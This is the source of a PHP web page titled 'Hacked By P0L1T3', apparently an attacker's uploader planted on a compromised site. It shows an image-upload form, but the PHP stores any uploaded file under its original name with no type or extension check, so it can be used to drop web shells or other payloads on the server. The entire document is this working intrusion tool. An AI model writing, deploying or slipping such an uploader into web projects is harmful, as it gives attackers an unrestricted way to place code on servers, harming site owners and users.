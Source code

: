 

<!DOCTYPE html>
<html lang="en">

<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<meta http-equiv="X-UA-Compatible" content="ie=edge">
	<title>!!Hacked By P0L1T3!!</title>
</head>

<body style="padding: 0; margin: 0; background-color: #000000; color: #ffffff;">
<form action="upload.php" method="post" enctype="multipart/form-data">
  <p>Select image to upload:
  <input type="file" name="fileToUpload" id="fileToUpload">
  <input type="submit" value="Upload" name="submit">
  </p>
</form>

</body>
</html>

<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$uploadOk = 1;
$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));


// Check if file already exists
if (file_exists($target_file)) {
  echo "Sorry, file already exists.";
  $uploadOk = 0;
}


// Check if $uploadOk is set to 0 by an error
if ($uploadOk == 0) {
  echo "Sorry, your file was not uploaded.";
// if everything is ok, try to upload file
} else {
  if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file ". htmlspecialchars( basename( $_FILES["fileToUpload"]["name"])). " has been uploaded.";
  } else {
    echo "Sorry, there was an error uploading your file.";
  }
}
?>
